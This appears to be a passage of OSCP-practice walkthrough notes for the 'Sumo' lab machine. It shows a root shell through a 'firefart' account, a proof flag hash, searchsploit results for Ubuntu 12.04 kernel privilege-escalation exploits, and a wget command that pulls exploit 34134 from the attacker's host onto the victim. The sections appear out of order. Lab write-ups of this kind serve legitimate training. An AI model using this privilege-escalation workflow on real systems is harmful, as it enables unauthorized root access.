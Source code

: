 ```console
www-data@ubuntu:/tmp$ su firefart
Password: test
firefart@ubuntu:/tmp# whoami
firefart
firefart@ubuntu:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
```

```console
firefart@ubuntu:~# ls
proof.txt  root.txt
firefart@ubuntu:~# cat proof.txt 
2c27ea86bf112135dec9a9b117d33db1
```







root@kali:/OSCPv3/offsec_pg/Sumo# searchsploit Linux kernel Ubuntu Ubuntu 12.04
-------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                |  Path
-------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel (Ubuntu 11.10/12.04) - binfmt_script Stack Data Disclosure                                       | linux/dos/41767.txt
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation          | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access  | linux/local/37293.txt
Linux Kernel 3.2.0-23/3.5.0-23 (Ubuntu 12.04/12.04.1/12.04.2 x64) - 'perf_swevent_init' Local Privilege Escal | linux_x86-64/local/33589.c
Linux Kernel < 3.2.0-23 (Ubuntu 12.04 x64) - 'ptrace/sysret' Local Privilege Escalation                       | linux_x86-64/local/34134.c
Linux Kernel < 3.5.0-23 (Ubuntu 12.04.2 x64) - 'SOCK_DIAG' SMEP Bypass Local Privilege Escalation             | linux/local/44299.c
-------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results


root@kali:/OSCPv3/offsec_pg/Sumo# searchsploit -m 34134
  Exploit: Linux Kernel < 3.2.0-23 (Ubuntu 12.04 x64) - 'ptrace/sysret' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/34134
     Path: /usr/share/exploitdb/exploits/linux_x86-64/local/34134.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /OSCPv3/offsec_pg/Sumo/34134.c



www-data@ubuntu:/tmp$ wget http://192.168.49.222:9090/34134.c
--2021-11-04 11:06:15--  http://192.168.49.222:9090/34134.c
Connecting to 192.168.49.222:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3551 (3.5K) [text/plain]
Saving to: `34134.c'

